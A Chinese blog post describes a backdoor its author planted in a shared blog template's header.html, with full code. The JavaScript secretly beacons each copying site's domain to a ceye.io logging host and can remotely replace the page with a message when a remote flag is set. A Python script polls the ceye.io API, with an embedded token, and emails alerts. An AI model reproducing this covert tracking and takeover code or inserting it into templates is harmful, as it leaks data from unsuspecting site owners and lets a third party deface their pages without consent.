 ```yaml
---
layout: post
author: Vulkey_Chen
title: "博客模板后门"
date: 2019-01-23
music-id: 
permalink: /archives/2019-01-23/1
description: "博客模板后门"
---
```


## 在博客模板的header.html中引用了外部的JS地址
<script src="aliyuncs.com/demo.min.js"></script><!--  https://X.com/arouline/demo.min.js -->
完整代码如下：

```javascript
var host = document.location.host;
var reg = new RegExp(/disbb.com/);
var isok = reg.test(host);
if(!isok){
	var img = document.createElement("img");
    img.src="http://myblog.d5z0tw.ceye.io/fuck?domain=" + host;
	img.style="display:none";
	document.body.appendChild(img);
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange=function(){
        if(xhr.responseText == "YES"){
        	document.write("<center><h1>Please tell me before using my template!By:[X.com]<center><h1>");
        }
    }
    xhr.open("GET","https://X.com/arouline/isopen.txt",true);
    xhr.send(null);
}
```

### Python 监控

利用`ceye.io`这个平台的API去实时监控，并且使用邮件发信通知。

导入Python模块 && 全局变量：

```python
#encoding: utf-8
import smtplib,requests,json,urlparse,sys,time
from email.MIMEText import MIMEText
from email.Utils import formatdate
from email.Header import Header

log = {}
```

**1.QQ邮件发信：**

```python
def send_mail(domain,ip):
	smtpHost = 'smtp.qq.com'
	smtpPort = '25'
	fromMail = 'X@qq.com'
	toMail = '接收方@qq.com'
	username = 'X@qq.com'
	password = 'X'
	reload(sys)
	sys.setdefaultencoding('utf8')
	subject = u'监控到有人copy您的disbb.com！'
	body = u"[信息]\n Domin: {0}  IP: {1}".format(domain,ip)

	encoding = 'utf-8'
	mail = MIMEText(body.encode(encoding),'plain',encoding)
	mail['Subject'] = Header(subject,encoding)
	mail['From'] = fromMail
	mail['To'] = toMail
	mail['Date'] = formatdate()

	try:
		smtp = smtplib.SMTP(smtpHost,smtpPort)
		smtp.ehlo()
		smtp.login(username,password)
		smtp.sendmail(fromMail,toMail.split(','),mail.as_string())
		print u"邮件已发送，监控信息："
		print body
	except Exception,e:
		print e
		print u"发送失败，监控信息："
		print body
	finally:
		smtp.close()
```

**2.ceye.io API调用获取信息，[个人中心](http://ceye.io/profile)可以看见API TOKEN，[API使用方法](http://ceye.io/api)：**

```python
def dnslog_monitor():
	api = "http://api.ceye.io/v1/records?token=613670c89aefe3488f89cb958d4b0370&type=http&filter=myblog"
	r = requests.get(api)
	json_data = json.loads(r.text)
	print json_data
	for i in json_data['data']:
		query = urlparse.urlparse(i['name']).query
		sb_domain = dict([(k, v[0]) for k, v in urlparse.parse_qs(query).items()])['domain']
		sb_ip = i['remote_addr']
		if sb_domain in log:
			pass
		else:
			print sb_domain
			log[sb_domain] = sb_ip
			send_mail(sb_domain,sb_ip)
```

**3.main函数：**

```python
def main():
	while True:
		dnslog_monitor()
		time.sleep(3)

if __name__ == '__main__':
     main()
```
